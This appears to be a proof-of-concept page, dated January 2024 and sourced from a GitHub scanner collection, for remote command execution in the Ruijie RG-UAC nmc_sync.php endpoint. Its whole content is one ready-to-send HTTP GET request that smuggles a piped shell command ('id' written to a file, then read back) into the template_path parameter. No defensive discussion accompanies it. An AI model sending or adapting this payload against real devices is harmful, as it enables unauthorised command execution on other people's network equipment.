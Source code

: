 # Ruijie_RG-UAC_nmc_sync.php_rce
time: 2024/01/02
@1
from: https://github.com/xinyisleep/pocscan/blob/main/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7_EG%E6%98%93%E7%BD%91%E5%85%B3_%E4%B8%8A%E7%BD%91%E8%A1%8C%E4%B8%BA%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F_%E5%89%8D%E5%8F%B0RCE.py

```
GET /view/systemConfig/management/nmc_sync.php?center_ip=127.0.0.1&template_path=|id%20%3EEf3a.txt|cat HTTP/1.1

```
